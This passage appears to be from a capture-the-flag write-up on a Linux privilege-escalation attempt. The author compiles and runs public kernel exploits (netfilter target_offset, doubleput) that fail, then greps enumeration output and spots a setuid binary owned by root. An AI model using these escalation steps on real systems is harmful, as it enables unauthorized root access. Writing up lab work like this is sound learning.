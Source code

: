 eric@BM:~/a$ gcc pwn.c -o pwn
eric@BM:~/a$ gcc decr.c -o decr
decr.c: In function ‘decr’:
decr.c:151:11: warning: cast from pointer to integer of different size [-Wpointer-to-int-cast]
  *match = (uint32_t)kmatch;
           ^
decr.c:157:7: warning: cast from pointer to integer of different size [-Wpointer-to-int-cast]
  *t = (uint32_t)kmatch;
       ^
eric@BM:~/a$ ./decr
netfilter target_offset Ubuntu 16.04 4.4.0-21-generic exploit by vnik
[!] Decrementing the refcount. This may take a while...
[!] Wait for the "Done" message (even if you'll get the prompt back).
eric@BM:~/a$ [+] Done! Now run ./pwn

eric@BM:~/a$ ./pwn
[+] Escalating privs...
pwn: pwn.c:44: main: Assertion `!getuid()' failed.
Aborted (core dumped)
eric@BM:~/a$ -
{% endhighlight %}

{% highlight bash %}
eric@BM:~/b$ ./doubleput
starting writev
writev returned successfully. if this worked, you'll have a root shell in <=60 seconds.
^C'
eric@BM:~/b$ -
{% endhighlight %}

Damn, no go!  At this point, I spend WAY too much time trying to devise a way to utilize these exploits on the newer kernel.  I've been trying to learn a bit of exploit development as of late and I guess since that was fresh on the brain it wanted me to go that route.  That was a rabbit hole that was not worth the time.  Lesson learned; Pay more attention in the Enumeration phase.

At this point I looked back at the enumeration scripts and still not finding much I decided to re-run them through a grep filter, maybe that would provide more insight as frankly there is a ton of data in them.

I decide to check against anything done by eric.  Since he is the one that originally attacked the box, perhaps his account would have a backdoor that he forgot.

{% highlight bash %}
eric@BM:~$ cat enum | grep eric
    Linux version 4.4.0-36-generic (buildd@lcy01-01) (gcc version 5.4.0 20160609 (Ubuntu 5.4.0-6ubuntu1~16.04.2) ) #55-Ubuntu SMP Thu Aug 11 18:01:55 UTC 2016
    tcp        0      0 192.168.244.157:1974    192.168.244.155:58596   ESTABLISHED 4503/sshd: eric [pr
    eric     pts/0    192.168.244.155  Thu14    6.00s  0.69s  0.02s sshd: eric [priv]
    PWD=/home/eric
    eric:x:1002:1002:Eric Gordon,,,:/home/eric:/bin/bash
    --w--w--w- 1 root root 0 Sep 16 08:59 /sys/fs/cgroup/memory/system.slice/home-eric-a-fuse_mount.mount/cgroup.event_control
    --w--w--w- 1 root root 0 Sep 16 12:43 /run/lxcfs/controllers/memory/system.slice/home-eric-a-fuse_mount.mount/cgroup.event_control
    -r-sr-s--- 1 root eric 372922 Aug 20 22:35 /usr/local/share/sgml/donpcgd
    fontconfig 2.11.94-0ubuntu1.1  generic font configuration library - support binaries
    fontconfig-config 2.11.94-0ubuntu1.1  generic font configuration library - configuration
    initramfs-tools 0.122ubuntu8.1  generic modular initramfs generator (automation)
    initramfs-tools-core 0.122ubuntu8.1  generic modular initramfs generator (core tools)
    libfontconfig1:amd64 2.11.94-0ubuntu1.1  generic font configuration library - runtime
    libnl-genl-3-200:amd64 3.2.27-1  library for dealing with netlink sockets - generic netlink
    libpciaccess0:amd64 0.13.4-1  Generic PCI access library for X
    linux-generic 4.4.0.36.38  Complete Generic Linux kernel and headers
    linux-headers-4.4.0-31-generic 4.4.0-31.50  Linux kernel headers for version 4.4.0 on 64 bit x86 SMP